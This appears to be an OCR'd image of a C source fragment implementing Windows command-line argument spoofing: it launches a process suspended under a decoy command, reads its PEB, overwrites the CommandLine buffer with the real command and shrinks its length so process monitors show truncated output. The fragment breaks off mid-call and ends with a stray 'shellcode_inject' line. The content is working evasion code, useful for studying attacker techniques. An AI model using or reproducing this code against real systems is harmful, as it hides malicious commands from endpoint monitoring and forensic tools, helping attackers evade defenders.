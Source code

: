 ```c

memset(&si, 0, sizeof(si));
memset(&pi, 0, sizeof(pi));

// Start process suspended
success = CreateProcessA(
NULL, 
(LPSTR)CMD_TO_SHOW, 
NULL, 
NULL, 
FALSE, 
CREATE_SUSPENDED | CREATE_NEW_CONSOLE,
NULL, 
"C:\\Windows\\System32\\", 
&si, 
&pi);

if (success == FALSE) {
printf("[!] Error: Could not call CreateProcess\n");
return 1;
}

// Retrieve information on PEB location in process
NtQueryInformationProcess2 ntpi = (NtQueryInformationProcess2)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtQueryInformationProcess");
ntpi(
pi.hProcess, 
ProcessBasicInformation, 
&pbi, 
sizeof(pbi), 
&retLen
);

// Read the PEB from the target process
success = ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, &pebLocal, sizeof(PEB), &bytesRead);
if (success == FALSE) {
printf("[!] Error: Could not call ReadProcessMemory to grab PEB\n");
return 1;
}

// Grab the ProcessParameters from PEB
parameters = (RTL_USER_PROCESS_PARAMETERS*)readProcessMemory(
pi.hProcess, 
pebLocal.ProcessParameters, 
sizeof(RTL_USER_PROCESS_PARAMETERS) + 300
);

// Set the actual arguments we are looking to use
WCHAR spoofed[] = CMD_TO_EXEC;
success = writeProcessMemory(pi.hProcess, parameters->CommandLine.Buffer, (void*)spoofed, sizeof(spoofed));
if (success == FALSE) {
printf("[!] Error: Could not call WriteProcessMemory to update commandline args\n");
return 1;
}

/////// Below we can see an example of truncated output in ProcessHacker and ProcessExplorer /////////

// Update the CommandLine length (Remember, UNICODE length here)
DWORD newUnicodeLen = 28;

success = writeProcessMemory(
```

[go/shellcode_inject/virtual>>]: generate